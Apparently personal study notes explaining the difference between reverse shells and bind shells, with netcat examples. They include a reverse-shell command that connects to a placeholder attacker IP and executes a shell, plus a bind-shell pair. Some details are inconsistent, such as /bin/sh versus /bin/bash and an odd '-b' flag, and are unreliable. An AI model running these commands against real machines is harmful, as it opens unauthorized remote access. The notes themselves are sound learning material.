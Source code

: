
# Reverse Shells vs. Bind Shells
Shells are just a way to gain and maintain access to a target machine. The most common type of shell is a [reverse shell](/cybersecurity/TTPs/exploitation/rev-shell.md) in which the victim machine connects back to us. A common tool used to accomplish rev-shells is *[Netcat](../../../cybersecurity/TTPs/exploitation/tools/netcat.md)*.
## Rev Shells
In order for rev shells to work, the attacking device needs to be listening on a specific port for the connection. In Netcat we can tell our device to listen on a chosen port with the command: `nc -lvp 4444`.
- `-l` for listen
- `-v` for verbose
- `-p` for port
With this command, we're telling Netcat to listen on port 4444 of our machine.
### On the target:
To get the target to connect to our listener, we have to send execute a command on the target to make the connection. For example: if the target *has netcat installed* (or we've some how gotten netcat onto the target machine) we can use it to make a connection back to our machine.

The command on the target in this case would look something like this:
```bash
nc <attacking IP> 4444 -e /bin/sh
```
In this command, nc on the target device creates a *[TCP connection](/networking/protocols/TCP.md)* back to the attacking IP, and executing a shell (`/bin/bash`) using the `-e` flag (the shell is executed on the target device).
## Bind Shells
[Bind shells](/cybersecurity/TTPs/exploitation/bind-shell.md) are essentially *the reverse of rev shells.* In bind shells, we *open a port on the target for listening* and make the TCP connection to that address from the attacker.

The shell execution *is still from the target's device*:
```bash
# Attacking command (example)
nc <target IP> 4444
# Target command (ex)
nc -lvp 4444 -b /bin/bash
```
Bind shells are more commonly used during *external pen-tests* b/c it's easier to make the connection to the target (due to firewalls and other factors complicating external network access).

> [!My previous notes (linked in text)]
> - [Rev Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/rev-shell.md) 
> - [Netcat](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/tools/netcat.md)
> - [TCP](https://github.com/TrshPuppy/obsidian-notes/tree/main/networking/protocols/TCP.md)
> - [Bind Shells](https://github.com/TrshPuppy/obsidian-notes/tree/main/cybersecurity/TTPs/exploitation/bind-shell.md) 
> - [blank](https://github.com/TrshPuppy/obsidian-notes/tree/main/)